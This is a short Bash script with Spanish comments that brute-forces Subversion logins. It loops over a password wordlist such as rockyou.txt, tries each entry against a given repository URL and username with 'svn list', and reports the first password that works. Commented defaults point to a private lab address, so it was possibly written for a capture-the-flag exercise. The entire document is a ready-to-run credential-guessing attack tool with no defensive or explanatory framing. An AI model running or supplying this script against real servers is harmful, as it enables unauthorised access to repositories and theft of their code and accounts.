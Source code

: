 ```bash
#!/bin/bash

# Colores
CRE='\033[31m'  # Rojo
CYE='\033[33m'  # Amarillo
BLD='\033[1m'   # Negrita
CNC='\033[0m'   # Resetear colores

printf "${BLD}${CRE}                                          \n"
printf "  ____ _    _    _    ___ ____ ____ ____ ____                    \n"
printf "  [__   \  /  |\ | __ |__ |  | |__/ |    |___                \n"
printf "  ___]   \/   | \|    |   |__| |  \ |___ |___          \n"
printf "                               \n"
printf "${BLD}${CYE}                                          \n"

if [ $# -ne 3 ]; then
    echo "Uso: $0 <parametro1 [REPO]> <parametro2 [user]> <parametro3 [wordlist]>"
    exit 1
fi


# Variables
REPO_URL=$1
USER=$2
PASS_LIST=$3


#REPO_URL="svn://172.17.0.2/subversion"   Cambia esto a tu URL de repositorio
#USER="svnuser"                                  Usuario fijo
#PASS_LIST="/usr/share/wordlists/rockyou.txt"  Archivo con lista de contraseñas

# Comprobar si el archivo de contraseñas existe
if [[ ! -f $PASS_LIST ]]; then
    echo "El archivo de contraseñas no existe: $PASS_LIST"
    exit 1
fi


sleep 1

# Intentar acceder al repositorio con el usuario "svnuser" y cada contraseña
while read -r pass; do
    echo "Probando usuario: $USER con contraseña: $pass"

    # Probar la conexión SVN
    svn list "$REPO_URL" --username "$USER" --password "$pass" 2>/dev/null

    if [[ $? == 0 ]]; then
        clear
        echo "¡Acceso exitoso! Usuario: $USER, Contraseña: $pass"
        exit 0
    fi


done < "$PASS_LIST"

echo "No se encontró ninguna combinación válida para el usuario $USER."
```
